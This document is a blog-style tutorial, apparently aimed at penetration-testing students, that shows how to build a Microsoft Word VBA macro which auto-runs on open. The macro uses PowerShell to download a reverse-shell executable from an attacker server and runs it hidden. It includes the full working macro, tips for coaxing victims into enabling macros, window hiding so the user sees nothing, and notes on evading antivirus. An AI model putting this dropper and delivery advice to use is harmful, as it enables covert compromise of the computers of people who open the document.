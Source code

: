 ```yaml
---
title: "How To Make A Reverse Shell With Microsoft Word Macros"
layout: single
read_time: true
comments: true
share: true
author_profile: true
header:
  overlay_color: "#000"
  overlay_filter: "0.5"
  overlay_image: /assets/christopher-burns-Kj2SaNHG-hg-unsplash.jpg
excerpt: "<br><br><br>"
categories:
  - Tutorials
tags:
  - cyber security
  - penetration testing
  - oscp
---
```


## High Level

By leveraging VBA code in a macro inside a Microsoft Word document, we can harness functionality to open and run command prompts. The target user must enable both editing mode and macros or else Microsoft Word will not let macros run our reverse shell. We will use some tips and tricks like making sure command prompt does not open visually, making the macro run without the user having to do anything to enable it, and in a future post running our payload in memory to leave no trace. Most Microsoft Word users are used to having to “enable editing” and as such rarely question when they must do so. The tricky part is either hoping or coaxing the user into allowing macros as well; a pop-up far fewer users see and might question at first.

## Microsoft Word Setup

You will need to have Word already installed and be able to run. While this post will not go into the phishing tactics that also must be involved for a successful exploit, a future post most absolutely will. Once inside our Word document, we need to navigate to the Macros section by going to View –> Macros. Once the Macros window pops up, we must choose what document to apply this to. You can either select the name of your document or, for a currently unnamed document, select “Document1 (document)”. If we do not select the current document, it will default to adding this to our global template. After selecting our current document, we must name the macro. Most online tutorials call their macro “MyMacro” but any naming convention here will work. This is also another moment to employ phishing tactics, as a more educated user might want to inspect what macros are being run. Once the macro is named the VBA editor will launch.

Here is the complete macro below. We will work through the macro top to bottom to make sure we understand what is happening.


```
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.1/reverseshell.exe', 'reverseshell.exe')"
    Shell str, vbHide
    Dim exePath As String
    exePath = ActiveDocument.Path + "\reverseshell.exe"
    Wait (2)
    Shell exePath, vbHide

End Sub

Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub
```


## Macro Explained

```
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

Document_Open() and Autopen() are redundant options making sure the user runs our macro since they might not do this willingly. They are both there for scenarios where one might not trigger but they both accomplish the same goal.


```
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.1/reverseshell.exe', 'reverseshell.exe')"
    Shell str, vbHide
    Dim exePath As String
    exePath = ActiveDocument.Path + "\reverseshell.exe"
    Wait (2)
    Shell exePath, vbHide
```


This is the heart of the exploit and where you should adjust your ip address and file name accordingly. To launch the Shell function, we need both the exePath and str variables defined, which you can see as so above. ActiveDocument.Path is used since the powershell download will not go to the normal downloads folder but inside of Word. After each of these shell commands, you may notice the vbHide attribute. As one might guess, this hides the command prompts being run from showing, allowing the illusion to the user that nothing malicious is happening in the background.


```
Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
```


We skipped over the Wait (2) command in the paragraph above, as it is not as simple as it looks. VBA does not have a built-in wait function, so instead we must create our own. In the end, whatever number you put in Wait (#) will make the program stall for that many seconds. Remember what is happening: we are reaching out to our own server to download the reverse shell. Due to poor internet connection, it is possible that the payload is not fully downloaded by the time the macro reaches the execution part and could end up causing a false negative. By including this wait function, we give the program ample time to download our payload for execution.

## Saving The File

While you might be tempted to save this as the modern .docx format, this will stop this attack from working. Instead, we need to use the much older but still in use .doc Word file extension to make sure our macros are kept with the file.

## Wrap up

In this blog we did not go over how to craft a msfvenom reverse shell, however, I will have a blog post coming out soon and will link it here. Additionally, this technique does not employ best practices by downloading the reverse shell instead of loading and running it in memory. There will also be a blog post coming on this soon and I will link it here below. Loading the payload in memory is highly encouraged as many antivirus or detection programs will throw up flags when the payload is downloaded as described in this post.

